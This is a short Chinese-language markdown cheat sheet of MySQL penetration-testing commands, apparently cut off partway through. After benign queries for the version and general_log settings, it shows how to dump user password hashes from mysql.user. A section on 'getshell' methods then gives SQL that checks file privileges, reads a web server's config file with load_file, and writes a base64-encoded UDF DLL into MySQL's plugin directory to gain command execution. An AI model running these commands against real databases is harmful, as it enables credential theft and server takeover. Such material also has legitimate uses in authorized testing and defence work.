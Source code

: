 ```
select version();

# 查询general_log的状态
# 方法1 结果为0或1  0即OFF  1即ON
SELECT @@global.general_log;
# 方法2 结果为ON或OFF
show variables like 'general_log';

# 查询general_log_file 日志文件的具体路径
# 方法1
SELECT @@global.general_log_file;
# 方法2
show variables like 'general_log_file';
```


```
# 查询MySQL的用户 密码

# MySQL低版本:
密码 加密方式为 password_str = concat('*', sha1(unhex(sha1(password))))
select host,user,password from mysql.user;



# MySQL高版本:
# 如 MySQL 8.0.17 空就是空密码
mysql> select User,Host,plugin,authentication_string from mysql.user;
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
| User             | Host      | plugin                | authentication_string                                                  |
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
| mysql.infoschema | localhost | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.session    | localhost | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| mysql.sys        | localhost | caching_sha2_password | $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED |
| root             | localhost | caching_sha2_password |                                                                        |
+------------------+-----------+-----------------------+------------------------------------------------------------------------+
4 rows in set (0.00 sec)
```

#### MySQL常用的getshell方法

```
# getshell方法1 : 写文件

# 前提 通常仅适用于 MySQL < 5.7 的版本

# 查询文件读写权限
SELECT @@global.secure_file_priv;

# 读文件
select load_file("D:\web\config.php");

# 写文件
select from_base64("base64的内容") into dumpfile "D:\mysql-5.6.41-winx64\lib\plugin\udf64.dll";
```
